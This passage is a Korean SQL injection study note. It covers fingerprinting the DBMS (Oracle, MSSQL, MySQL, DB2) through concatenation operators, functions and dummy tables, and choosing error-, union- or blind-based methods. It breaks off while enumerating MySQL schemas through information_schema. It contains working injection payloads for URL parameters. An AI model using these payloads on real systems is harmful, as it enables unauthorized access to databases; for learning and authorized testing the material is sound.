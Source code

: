 



  **4) 데이터 조회 기법**

   a. DBMS 파악
    

    \> 에러를 통한 파악
    \> 연결 연산자를 통한 파악 (대부분 연결 연산자로 많이 됨) : **Oracle(||), MSSQL(+(%2b로 사용)), MySQL(공백)**
     \- (MSSQL)
       ?idx=192 and 'test'='te'+'st' (MSSQL) (burp 에서는 > ?idx=192+and+'test'='te'%2b'st' )
     \- (ORCLE)
       검색어에 > t'||(case when 1=1 then 'e' else 'a' end)||'st
    \> 함수를 통한 파악
     \- MySQL - now(), mid() > (?idx=7 and mid('test',1,1)='t') > **mid 함수의 경우 mysql 만 있음**
     \- MSSQL - len(), substring() > **len() 함수의 경우 mssql 만 있음**
     \- ORACLE - substr()
    \> 더미 테이블을 통한 파악
     \- ORACLE - select 1 from dual > (?idx=(select 192 from dual))로 조회시 192번 글이 조회 되었다면... 가능성 높음
     \- DB2 - select 1 from sysibm.sysdummy1

  ** JSP, JAVA 사용 시, ORACLE
  ** PHP 사용시, Mysql 사용 가능성 높음

   b. 공격 적합성 검토
    

    \> DBMS 에러 출력 유/무 파악 = error base
    \> DB 데이터 웹페이지 출력 유/무 파악(검색기능에 적합) = union base 
     \> t4 로 검색했는데 test4가 검색될 경우
    \> 위 둘다 안되면 .... Blind

   







   c. MySQL 데이터 조회

   

    \> 1. 순차적 접근(DB목록화, Table 목록화, 컬럼 목록화),

   







  ​     \* DB 목록화 :

  ​      select * from information.schema.schemata

  ​      select schema_name from information.schema.schemata
  ​      **(information_schema DB 안에 schemata 테이블에 있는 컬럼 "SCHEMA_NAME"은 DB 이름이다.)
  ​      (information_schema DB안에 tables, columns 안에 있는 컬럼 "table_schema"는 DB 이름이다.)**

   

  ​     \* Table 목록화 :
